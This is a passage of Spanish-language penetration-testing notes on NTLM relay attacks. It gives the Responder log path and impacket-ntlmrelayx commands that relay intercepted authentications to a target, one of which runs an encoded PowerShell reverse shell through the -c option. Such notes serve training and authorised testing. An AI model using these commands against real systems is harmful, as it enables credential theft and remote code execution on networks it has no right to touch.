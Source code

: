 ```bash
/usr/share/responder/logs/Responder-Session.log
```
#### NTML Relay - impacket-ntmlrelay
Actúa como servidor falso en servicios como SMB ó HTTP y redirige las autenticaciones interceptadas en tiempo real. En el siguiente ejemplo solo captura los hashes (`-t` es la máquina que recibirá la autenticación robada)
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t $target
```
con la opción `-c` podemos ejecutar comandos. Por ejemplo: 
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t $target -c 'powershell -e BASE64_REVSHELL'
```